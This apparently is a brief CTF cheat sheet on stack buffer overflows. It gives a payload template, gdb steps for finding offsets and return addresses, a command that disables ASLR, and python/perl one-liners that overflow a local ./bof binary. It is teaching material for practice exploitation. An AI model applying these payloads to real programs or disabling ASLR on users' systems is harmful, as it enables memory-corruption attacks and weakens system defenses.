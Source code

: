 # EXAMPLES

## STACK OVERFLOW
When overflowing, need to reallign stack before continuing return chain / do other stuff.  
*	note: only for Ubuntu LIBC.  

`payload = "A"*offset + return_addr_to_main + function_addr` : overflow to call function at `function_addr`  
*	`offset` : got with gdb/pattern   
*	`return_addr_to_main` : return address of `main`  
	1.	gdb:  
	2.	`disassemble main`  
	3.	argument of `ret` instruction  

## References:
*	https://www.youtube.com/watch?v=vqNQe9xjz2Q
*	https://ctftime.org/writeup/31259

## MITIGATIONS
Disable randomized addresses:  
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## MISC
bof 32bit exec, for CCIT:  
```bash
(python -c 'print "A"*64,"BBBB","\n"'; cat -) | ./bof :  
(perl -e 'print "A"x64,"BBBB","\n"'; cat -) | ./bof :   
```